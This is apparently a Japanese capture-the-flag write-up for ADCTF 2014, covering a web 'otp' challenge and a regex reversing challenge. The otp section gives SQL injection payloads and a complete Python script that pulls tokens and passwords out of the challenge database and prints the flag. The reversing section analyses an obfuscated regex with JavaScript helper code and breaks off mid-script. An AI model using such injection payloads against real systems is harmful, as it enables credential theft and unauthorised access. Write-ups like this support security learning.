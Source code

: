 ## 21 日目 otp (web)
- `token` を `' union select 1;--` にすると `otp expired at 1` と表示される。
- `' and 0 union select (token || '|' || pass) from (select '' as token, '' as pass, '' as _ union select * from otp) limit 1;--` でトークンとパスを抜ける。
- スクリプトを書いて走らせるとフラッグが出る。

```python
import re
import requests

url = 'http://otp.adctf2014.katsudon.org/'
q = "' and 0 union select pass from (select '' as token, '' as pass, '' as _ union select * from otp) where token = '{}';--"
def main():
  c = requests.get(url).content.decode('ascii')
  token = re.findall(r'[0-9a-f]{16}', c)[0]
  c = requests.post(url, {
    'token': q.format(token),
    'pass': ''
  }).content.decode('ascii')
  password = re.findall(r'[0-9a-f]{32}', c)[0]
  c = requests.post(url, {
    'token': token,
    'pass': password
  }).content.decode('ascii')
  print('[*]', re.findall(r'(the flag is: [^<]+)', c)[0])

if __name__ == '__main__':
  main()
```
```
flag: ADCTF_all_Y0ur_5CH3ma_ar3_83L0N9_t0_u5
```

## 22 日目 wtfregexp (reversing)
- 正規表現の部分と何かしている部分を分ける、バイナリエディタで見ると後ろが何かしている部分っぽい。
- 何かしている部分を調べる。
- `unpack('B*', 'A')` は `01000001` で `unpack('B*', 'ABCD')` は `01000001010000100100001101000100`。
- `(()= $RE =~ /(,)/g)` という謎文法、[Perlの食えない事情 - 演算子編](http://akiym.hateblo.jp/entry/2013/02/03/031420)に書かれていた。
- `((()= $RE =~ /(,)/g) + 1)` は `768`。
- 正規表現の部分を調べる。
- `[01][01]` みたいなのを `.{2}` みたいな感じにして読みやすくする、`document.body.innerHTML = document.body.innerHTML.replace(/(\[01])+/g, function (m) { return '.{' + String(m.length / 4) + '}' });`。
- コンマで区切ってみると全部 `(?:.{64}(?:0.{71}|.{71}0).{120})` のような形式になっている。
 - 内側の `(?:…)` の `0` と `1` を集めていけばフラッグが?
 - 左側と右側のどちらが正解か分からない?
 - MSB は立たないだろうし、フラッグは `ADCTF_` から始まるだろうしである程度絞り込める。

```javascript
var _slice = Array.prototype.slice;
var s = document.body.innerText.replace(/(\[01])+/g, function (m) {
  return '.{' + String(m.length / 4) + '}';
}).slice(1, -1);

s = s.split(',').map(function (e) {
  // '(?:.{134}(?:1.{98}|.{98}0).{23})'.match(/…/); => ["(?:.{134}(?:1.{98}|.{98}0).{23})", "134", "1", "98", "0"]
  // '(?:(?:0.{72}|.{72}1).{183})' => ["(?:(?:0.{72}|.{72}1).{183})", undefined, "0", "72", "1"]
  // '(?:.{256})'.match(/…/); => ["(?:.{256})", "256", undefined, undefined, undefined]
  return _slice.call(e.match(/\(\?:(?:\.\{(\d+)\})?(?:\(\?:([01])\.\{(\d+)}\|\.\{\d+}([01])\))?(?:\.\{\d+})?\)/), 1);
});

```